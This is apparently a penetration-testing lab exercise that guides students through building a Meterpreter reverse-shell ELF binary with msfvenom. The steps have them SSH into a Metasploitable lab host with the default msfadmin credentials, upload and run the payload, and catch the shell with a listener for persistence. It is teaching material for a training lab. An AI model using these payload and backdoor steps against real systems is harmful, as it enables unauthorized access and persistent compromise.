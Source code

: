 ### Creating Malicious Binaries

In this Guided Practice you will:
- Be creating your own Malicious Binary to get a reverse shell on the Metasploitable host you scanned earlier. 
- To do this, you will be using the tool MSFvenom that we went over in class to create the binary for you.
- Remember, a common mistake that people make during this exploit, is not matching the LPORT, and the LHOST during from the `msfvenom` step to the `multi/handler` step.  

**Instructions**

Now it's your turn! In this Guided Practice you will create a malicious binary to get a reverse shell on the `10.10.10.100` host that you scanned earlier. Although this is a machine that we have exploited in the past, we want to maintain a backdoor or persistence, to revisit the machine at any given time. 

MSFvenom is a tool that will create the malicious binaries for you. In case you do not remember the correct syntax refer to the example below:

`msfvenom --arch x86 --platform <insert OS here> --payload <insert OS here>/x86/meterpreter/reverse_tcp LHOST=<insert your IP address> LPORT=<insert lport number> --format elf -o <filename>`


- - -

**Steps**

Complete the following:

- Create your executable.
- Upload your payload.
- Start a listener.
- SSH into the `10.10.10.100` host, using the credentials we discovered during the past week (msfadmin:msfadmin). 
- Execute the payload. 
  - **Note:** Remember to change the permissions once it has been uploaded. 

The Guided Practice uses the same lab environment as the previous activities. 
